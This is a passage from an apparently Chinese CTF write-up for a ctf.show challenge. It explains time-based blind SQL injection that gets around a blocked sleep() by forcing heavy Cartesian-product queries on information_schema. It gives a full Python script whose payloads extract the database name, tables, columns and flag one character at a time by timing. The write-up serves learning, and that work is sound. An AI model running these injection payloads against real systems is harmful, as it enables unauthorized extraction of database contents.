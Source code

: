 但是这里进行调试的时候发现失败了 所以使用另一个方法吧

使用笛卡尔积

```css
(SELECT count(*) FROM information_schema.tables A, information_schema.schemata B, information_schema.schemata D, information_schema.schemata E, information_schema.schemata F,information_schema.schemata G, information_schema.schemata H,information_schema.schemata I)
```

这里的内容替换到 sleep的地方 这样他计算count的时候 就会话很多时间去计算所有联合的表 实现时间注入

这里理解一下笛卡尔积 就知道为什么了

所以修改脚本

```cobol
import time
 
import requests
 
 
url = "http://35a48f84-e167-4e17-8291-ce63ea766ba3.challenge.ctf.show/api/"
bypass = """(SELECT count(*) FROM information_schema.tables A, information_schema.schemata B, information_schema.schemata D, information_schema.schemata E, information_schema.schemata F,information_schema.schemata G, information_schema.schemata H,information_schema.schemata I)"""
# payload = "1) or if(ascii(substr((select database()),{0},1))>{1},{2},0)-- +"
# payload = "1) or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{0},1))>{1},{2},0)-- +"
# payload = "1) or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flagxca'),{0},1))>{1},{2},0)-- +"
payload = "1) or if(ascii(substr((select group_concat(id,'---',flagaabc)from ctfshow_flagxca),{0},1))>{1},{2},0)-- +"
flag = ''
 
for i in range(1,100):
    high = 128
    low = 32
    mid = (high+low)//2
    while(high>low):
        payload1=payload.format(i,mid,bypass)
        # print(payload1)
        # print(payload1)
        data = {
            'ip':payload1,
            'debug':0
        }
        start_time=time.time()
        re = requests.post(url=url,data=data)
        end_time=time.time()
        subtime=end_time-start_time
        # print(subtime)
        if subtime > 0.85:
            low=mid+1
        else:
            high=mid
        mid=(low+high)//2
        if(chr(mid)==" "):
            break
    flag+=chr(mid)
    print(flag)
 
 
```
